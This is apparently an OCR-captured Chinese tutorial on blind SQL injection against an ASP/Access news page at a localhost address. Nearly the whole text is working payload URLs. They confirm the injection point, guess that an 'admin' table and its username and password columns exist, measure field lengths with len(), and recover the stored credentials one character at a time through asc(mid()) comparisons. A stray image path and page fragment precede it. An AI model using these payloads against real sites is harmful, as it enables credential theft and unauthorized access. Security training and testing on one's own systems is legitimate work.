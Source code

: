 ## **1、判断注入**

and 1=1

and 1=2

## 2、猜表

页面返回正常 说明 表存在

http://127.0.0.1:99/shownews.asp?id=110 and exists (select * from admin)

## 3、猜列

http://127.0.0.1:99/shownews.asp?id=110 and exists (select username from admin)

http://127.0.0.1:99/shownews.asp?id=110 and exists (select password from admin)

## 4、猜数据长度

查询字段的长度

http://127.0.0.1:99/shownews.asp?id=110 and (select top 1 len(username) from admin)=8

等于8就是确定数据的长度 也可以使用大于（>）小于（<）个人认为 等于（=）最好确定长度

查询数据asccii码

mid() 截取位置
asc() ascii码

第一个长度的ascii码长度 页面返回正常

http://127.0.0.1:99/shownews.asp?id=110 and (select top 1 asc(mid(username,1,1)) from admin)=97

http://127.0.0.1:99/shownews.asp?id=110 and (select top 1 asc(mid(username,2,1)) from admin)=100

http://127.0.0.1:99/shownews.asp?id=110 and (select top 1 asc(mid(password,1,1)) from admin)=100

猜解完之后 把ascii码 转换过来 并接 就是username字段的的数据，其他字段也是这样。

97的字符为 a 100的字符为d 并接起来就是ad 

 

 

 

 
